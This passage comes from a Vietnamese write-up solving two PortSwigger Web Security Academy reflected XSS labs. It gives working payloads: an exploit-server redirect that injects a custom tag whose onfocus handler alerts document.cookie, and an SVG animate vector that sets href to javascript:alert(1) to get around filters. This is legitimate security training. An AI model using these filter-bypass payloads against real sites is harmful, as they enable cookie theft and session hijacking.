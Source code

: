 Làm như lab cũ, xác định thẻ `custom tags` không bị chặn

<img width="423" alt="image" src="https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/71de5b97-021e-4666-9bae-0a3dd43b338d">

Paste đoạn code sau lên Exploit Server

```javascript
<script>
location = 'https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```

Deliver to victim => Lab solved!

<img width="583" alt="image" src="https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/a26a8b16-44d2-4218-8149-4e0310d1316c">

***

## 7. Lab: Reflected XSS with event handlers and href attributes blocked

* Content:
```
This lab contains a reflected XSS vulnerability with some whitelisted tags, but all events and anchor href attributes are blocked..

To solve the lab, perform a cross-site scripting attack that injects a vector that, when clicked, calls the alert function.

Note that you need to label your vector with the word "Click" in order to induce the simulated lab user to click your vector. For example:

<a href="">Click me</a>
```
* Exploit:

Tương tự Lab trước, xác định các thẻ sau không bị filter block

<img width="424" alt="image" src="https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/e3af6cf1-a911-4ed1-8e32-7fde86a60c3c">

Đầu bài yêu cầu ta phải click để trigger alert, ngoài ra không được dùng thuộc tính href => Sử dụng thẻ `svg`

Sử dụng Payload như sau:
`https://YOUR-LAB-ID.web-security-academy.net/?search=%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick%20me%3C%2Ftext%3E%3C%2Fa%3E`

Decode cho dễ đọc như sau:
`https://YOUR-LAB-ID.web-security-academy.net/?search=<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>`

Lab Solved!

<img width="586" alt="image" src="https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/825cbc2b-542d-4fd6-a804-222163dbb2c4">

